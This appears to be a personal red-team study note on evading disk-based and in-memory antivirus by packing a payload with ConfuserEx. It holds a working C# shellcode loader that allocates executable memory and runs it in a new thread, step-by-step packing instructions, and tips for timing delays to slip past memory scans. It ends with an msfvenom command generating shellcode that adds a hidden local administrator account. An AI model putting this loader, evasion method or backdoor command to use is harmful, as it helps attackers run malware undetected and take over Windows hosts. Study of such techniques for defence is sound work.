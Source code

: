 ```yaml
---
tags:
  - red-team/host-evasion
date-created: 2025-07-09
dg-publish: true
aliases:
  - Packers
---
```

~ [[Evading Antivirus - Shellcode]]
### Introduction
---
This is one of the another way to defeat disk-based AV detection: It is a software that takes a program as input and transform it so the structure looks different while maintaining its function.

Why packers even exists?
- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.
#### Key Topics
---
- [[#Packers in Action|Understand how packers transform code and embed an unpacking stub to evade disk-based AV detection.]]
    
- [[#Packing C with ConfuserEx|Learn how to obfuscate and compress your C# payload using ConfuserEx to reduce AV detection.]]

## Packers in Action
---
The packing function is responsible for transforming or obfuscating the original code that can be **reasonably** reversed by an **unpacking** function -- while sometimes packers may add some code (to make debugging the application harder as an example), it should able to get back the original code you wrote when executing it.

![[Evading Antivirus - Shellcode.png]]

To unpack the original code, the packer embed a code stub (small piece of code) that contains an unpacker and redirect the main entry point of the executable to it.

![[Evading Antivirus - Shellcode-1.png|500]]

- Though for example our malicious reverse shell is packed -- AV detection could still flag this if the **unpacker's code** has a known signature.
- If the Antivirus solution you are trying to bypass can do in-memory scans, it might still be detected afer your code is unpacked.
#### Packing C# with ConfuserEx
---
The code:

```C#
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] { !!REPLACE_MEEEEE!!! };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The generated shellcode:

![[Evading Antivirus - Shellcode-2.png|400]]

```C
csc UnEncStagelessPayload.cs
```

Uploading the following:

![[Evading Antivirus - Shellcode-3.png|450]]

With ConfuserEx:

![[Evading Antivirus - Shellcode-4.png|450]]

1. Move to **settings** and then select your payload (the `.exe`) file.
2. Click the **'+'** button to add settings (will show true)
3. Then for packer (same window) choose compressor
4. Edit the **'true'** rule by clicking the pencil icon:

![[Evading Antivirus - Shellcode-5.png|450]]

Finally, go to **Protect** tab and hit **'Protect!'** then upload the following to the Antivirus:

![[Evading Antivirus - Shellcode-6.png|450]]

Things to know and try against AV in memory scanning:

- **Just wait a bit** after 5 minutes since in-memory scanning is very resource expensive most AV will scan for a while after your process starts but will eventually stop.
	- Spawn a shell then wait for 5 minutes.
	- Do absolutely nothing (malicious) for 5 minutes then spawn a shell.
	- **Much better** is combine both delay the executon of the malicious payload then wait before doing anything suspicious over the reverse shell.
- **User smaller payloads** instead of using a **large, full-featured payload** (like a reverse shell or Meterpreter session), you can use a **very small payload** that executes **just one command**, why?
	- AV engines are more likely to detect large, complex payloads or at least flags it.
	- Small payloads that just **run a single command** are simpler, and often **don’t contain obvious shellcode patterns**.
	- Basically less code = fewer suspicious indicators = less likely to trigger AV.

```C
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```





